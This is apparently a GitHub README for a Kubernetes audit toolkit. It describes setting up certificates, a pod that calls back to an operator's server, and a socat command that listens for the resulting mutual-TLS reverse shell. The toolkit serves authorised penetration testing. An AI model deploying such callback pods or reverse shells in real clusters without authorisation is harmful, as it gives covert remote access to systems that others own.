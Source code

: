 # Kubernetesaudit
Some tools to setup a mutual TLS reverse shell. Which might be useful when perform kubernetes-audits, from the perspective of a hacked container running in a kubernetes pod.

If you have access to the kubernetes environment with sufficient priviliges your can just get a shell on the container like this:

```
kubectl get pods
NAME                                          READY   STATUS    RESTARTS   AGE
kubernetesaudit-deployment-1da5e985c3-akafb   1/1     Running   0          32m

kubectl exec -it kubernetesaudit-deployment-1da5e985c3-akafb -- /bin/bash
```

Otherwise you might have to set up a pod which performs a callback with a reverse shell to your internet exposed machine.

## Dockerfile
The dockerfile contains the setup for the docker image. It is just a debian with some useful tools, such as kubectl. And the reverse shell of course. Uncomment the gitrepos if you want those repos as well.
The image is also available here:
https://hub.docker.com/r/xapax/kubernetesaudit

## setuppki.sh
This is just a simple easyrsa-wrapper that creates a CA, server certificate and client certificate. It also creates the file-structure to serve your https-server, and then to receive your incoming client-authenticated reverse shell.

The script should be run on the machine where you want to host your webserver and reverse shell.
It will also create a random token. Used to create a path on the server where client-cert and CA is provided from.
This random token needs to be added to your deploymentspecs_kubernetes.yaml file. Together with your domain as well.

## deploymentspecs_kubernetes.yaml
This is the kubernetes Deployment for creating the Kubernetesaudit image as a kubernetes pod.

It can be deployed in your kubernetes cluster like this:

```
kubectl create -f deploymentspecs_kubernetes.yaml
```


## 1. Set up PKI and web server
- A. Get a domain-name if you don't already have one.
- B. Run Certbot to get a free let's encrypt certificate.

Run `setuppki.sh`, and follow the instructions.
Take note of the generated random token, you will need it in the next step.

Configure this https-python-server so that is uses the certificates generated by certbot: https://github.com/xapax/python-https-server

run `python ../server.py` from `webconfigprovider`. Now wait until the image is deployed, as it will be in the next step.


## 2. Deploy pod
A. Configure `deploymentspecs_kubernetes.yaml`. Specify your domain. And specify the random token that was generated in step 1. 

Now deploy it to your kubernetes cluster, or have someone with sufficient privilige deploy it.

```
kubectl create -f deploymentspecs_kubernetes.yaml
```

Now you will see a request to `server.py`. Trying to get three files (ca root cert, client cert and reverseshell config). If it manages to get those three files you can get your shell.

Close down `server.py`

## 3. Start reverse shell listener

Go to `~/revlistener`, there you will have your certificates. So just run the following command to get your incoming reverse shell:

```
sudo socat file:`tty`,raw,echo=0 openssl-listen:443,reuseaddr,cert=server.pem,cafile=ca.crt
```



## Credit
The reverse shell and docker image was created by https://github.com/Doctor-love. All credit to Doctor-love! 
